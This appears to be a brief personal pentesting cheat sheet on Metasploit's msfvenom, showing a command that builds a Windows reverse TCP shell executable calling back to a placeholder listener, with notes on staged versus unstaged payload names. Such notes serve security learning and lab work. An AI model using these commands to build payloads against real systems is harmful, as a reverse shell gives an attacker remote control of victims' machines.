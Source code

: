 # C2-Frameworks

## Metasploit - MSFVENOM 

### example procedure

e.g.  `msfvenom --list payloads | grep "linux/x86/meterpreter"`

`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

notice
1. -f format
2. -o output_file
3. -p payload os/arch/payload


### some nuance and gotchas

- Payloads with `shell/reverse_tcp` are staged 	
- Payloads with `shell_reverse_tcp` are unstaged 
- sometimes it says meterpreter instead of shell, these require the meterpreter multihandler to catch them
- notice the `/_` between shell and reverse
	- `/` is staged
	- `_` is not staged

